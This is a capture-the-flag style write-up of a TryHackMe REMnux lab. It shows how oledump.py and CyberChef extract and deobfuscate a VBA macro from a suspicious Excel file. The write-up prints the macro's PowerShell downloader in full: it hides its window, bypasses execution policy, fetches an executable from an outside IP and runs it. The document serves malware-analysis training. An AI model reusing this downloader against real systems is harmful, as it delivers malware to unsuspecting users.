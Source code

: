 ```yaml
---
title: "TryHackMe: REMnux Getting Started - Task 3 File Analysis"
author: Dustin Merritt
categories: [TryHackMe]
tags: [remnux, oledump, malware, vba, static analysis, cyberchef]
render_with_liquid: false
media_subpath: /images/tryhackme_remuxgettingstarted/
image:
  path: room_image.webp
---
```


In this TryHackMe room, we used **REMnux** to analyze a suspicious Excel document named `agenttesla.xlsm`. We leveraged the `oledump.py` tool to extract and examine embedded macros, then used **CyberChef** to clean and interpret an obfuscated PowerShell payload. This exercise demonstrated a realistic scenario where VBA macros are used to drop malware onto a target system.

[TryHackMe Room: REMnux Getting Started](https://tryhackme.com/room/remnuxgettingstarted)


## Initial Setup

We started by opening the **REMnux VM** and navigating to the provided file path:

```bash
cd /home/ubuntu/Desktop/tasks/agenttesla/
```

Running `oledump.py` on `agenttesla.xlsm` revealed several streams, notably:

```bash
oledump.py agenttesla.xlsm
```

Output:
```
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```

The stream labeled `A4` contains a **macro** (`M` flag), suggesting potential malicious behavior.

## Macro Extraction

We extracted the contents of the macro using:

```bash
oledump.py agenttesla.xlsm -s 4
```

This provided raw hex output, but it was difficult to interpret. To decode the VBA macro, we added the `--vbadecompress` flag:

```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

The output revealed a familiar PowerShell obfuscation pattern using `*` and `^` as noise characters:

```vb
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* ... -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" ..."
```

## PowerShell Deobfuscation with CyberChef

To make the PowerShell command human-readable, we used **CyberChef**:

- Apply two **Find/Replace** operations:
  - Replace `*` with an empty string
  - Replace `^` with an empty string

Once cleand, the PowerShell command was clearly a downloader:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass;
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru;
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile;
Start-Process $TempFile;
```

## What Does This Do?

- **Hidden Window**: Avoid user suspicion
- **Bypass Execution Policy**: Allow running potentially blocked scripts
- **Download EXE**: Grab `Doc-3737122pdf.exe` from a suspicious IP
- **Execute**: Run the file on the target machine

This macro behavior is a classic example of **initial access malware delivery**, likely a variant of **AgentTesla**, a popular information stealer.

## Bonus: Analyzing `possible_malicious.docx`

We applied the same technique to `possible_malicious.docx`:

```bash
oledump.py possible_malicious.docx
```

Output:
```
... 16 data streams ...
... macro present at stream 8 ...
```

Another suspicious macro! These steps could easily be repeated to investigate further.

## Wrap-Up

This TryHackMe challenge was a practical introduction to static malware analysis using REMnux. Tools like `oledump.py` and CyberChef make reverse-engineering obfuscated macros more accessible. Remember, even Excel files can be trojan horses — always analyze before opening!

## Key Takeaways

- **Tool used**: `oledump.py`
- **Macro identified in stream**: `A4`
- **PowerShell function for downloading files**: `Invoke-WebRequest`
- **Downloaded file name**: `Doc-3737122pdf.exe`
- **Downloaded location**: `$TempFile`

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>